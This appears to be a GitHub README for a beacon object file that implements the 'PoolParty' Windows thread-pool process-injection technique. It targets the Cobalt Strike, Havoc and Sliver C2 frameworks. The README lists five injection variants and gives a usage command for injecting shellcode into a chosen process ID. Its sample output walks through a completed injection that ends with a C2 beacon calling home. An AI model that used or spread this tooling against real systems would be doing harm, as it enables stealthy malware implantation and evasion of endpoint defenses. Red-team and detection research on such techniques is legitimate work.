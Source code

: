 # PoolParty BOF

A beacon object file implementation of [PoolParty Process Injection Technique](https://github.com/SafeBreach-Labs/PoolParty/) by [@_SafeBreach_](https://www.safebreach.com/) and [@_0xDeku_](https://twitter.com/_0xDeku), that abuses Windows Thread Pools. The BOF supports the 5 technique/variant:
- Insert TP_IO work item to the target process's thread pool.
- Insert TP_ALPC work item to the target process's thread pool.
- Insert TP_JOB work item to the target process's thread pool.
- Insert TP_DIRECT work item to the target process's thread pool.
- Insert TP_TIMER work item to the target process's thread pool.

I will try to keep adding remaining variants.

## Usage
```
PoolPartyBof <Process ID> <Path To Shellcode> <Variant>
```

- Usage Examples

```
 PoolPartyBof 2136 /tmp/beacon_x64.bin 4
[*] Opening 2136 and running PoolParty with /tmp/beacon_x64.bin shellcode!
[+] host called home, sent: 314020 bytes
[+] received output:
[INFO] 	Shellcode Size: 307200 bytes
[+] received output:
[INFO] 	Starting PoolParty attack against process id: 2136
[+] received output:
[INFO]   Retrieved handle to the target process: 0000000000000670
[+] received output:
[INFO] 	Hijacked worker factory handle from the target process: 000000C96E0FF5B8
[+] received output:
[INFO] 	Hijacked timer queue handle from the target process: 000000C96E0FF5B8
[+] received output:
[INFO]   Allocated shellcode memory in the target process: 00000290C91B0000
[+] received output:
[INFO]   Written shellcode to the target process
[+] received output:
[INFO] 	Retrieved target worker factory basic information
[+] received output:
[INFO] 	Created TP_TIMER structure associated with the shellcode
[+] received output:
[INFO] 	Allocated TP_TIMER memory in the target process: 00000290C9200000 
[+] received output:
[INFO] 	Written the specially crafted TP_TIMER structure to the target process
[+] received output:
[INFO] 	Modified the target process's TP_POOL timer queue WindowsStart and Windows End to point to the specially crafted TP_TIMER
[+] received output:
[INFO] 	Set the timer queue to expire to trigger the dequeueing TppTimerQueueExpiration
[+] received output:
[INFO] 	PoolParty attack completed.
```

![](img/PoolPartyBof.png)
![](img/PoolPartyBofHavoc.png)

> The BOF can be further used with [Process Injection Hooks](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/malleable-c2-extend_control-process-injection.htm) provided within Cobaltstrike, and [Rastamouse](https://twitter.com/_RastaMouse) has a perfect [blog](https://offensivedefence.co.uk/posts/cs-process-inject-kit/) too.


> Added [Havoc](https://github.com/HavocFramework/Havoc/) BOF support. You are welcome to open an issue, if something doesn't work. For [sliver C2](https://github.com/BishopFox/sliver) it partially works, but Somehow the remote process crashes when executed the shellcode.


### Credits and Original Work
- [Blackhat Slides](https://www.blackhat.com/eu-23/briefings/schedule/#the-pool-party-you-will-never-forget-new-process-injection-techniques-using-windows-thread-pools-35446)
- [Alon Leviev](https://twitter.com/_0xDeku)
- [SafeBreach](https://www.safebreach.com/)
